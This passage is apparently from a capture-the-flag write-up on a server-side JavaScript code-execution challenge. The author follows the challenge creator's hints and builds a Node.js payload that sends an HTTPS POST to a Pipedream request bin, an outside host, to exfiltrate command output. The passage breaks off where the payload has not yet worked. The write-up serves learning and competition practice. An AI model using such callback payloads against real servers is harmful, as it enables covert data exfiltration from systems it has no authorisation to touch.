 That took more than 20 seconds, which entails our script probably worked.

Ouch, the creator just pinged us on Discord. Sorry I didn't meant to blow up your server…

What else did the creator say about the challenge?

![Untitled](</hw5b/Untitled 15.png>)

Hm. We have to make a request to run a script *making another request*? Oh, apparently the creator just hinted us a way we can retrieve the output of the JS code.

Let’s take a look at the website the creator showed us:

![Untitled](</hw5b/Untitled 16.png>)

It is also mentioned that we should use something like Pipedream to capture requests, so let’s try to set up a Pipedream request bin, and try to send a request using the `HTTP` module. Our JavaScript payload would be:

```jsx
var https = require('https');

// Used to configure your HTTP request.
const options = {
			// Your Pipedream request bin link.
      hostname: "woahthisisverycool.m.pipedream.net",
			// Not really needed but ok.
      path: "/vowbecomefemboy",
      method: "POST"
}

// Make request.
const req = https.request(options)
req.end()
```

Bonus: You can use [https://www.toptal.com/developers/javascript-minifier](https://www.toptal.com/developers/javascript-minifier) to simplify your JavaScript into one line, which could be helpful (maybe?

If we run this, we realize that nothing happened.
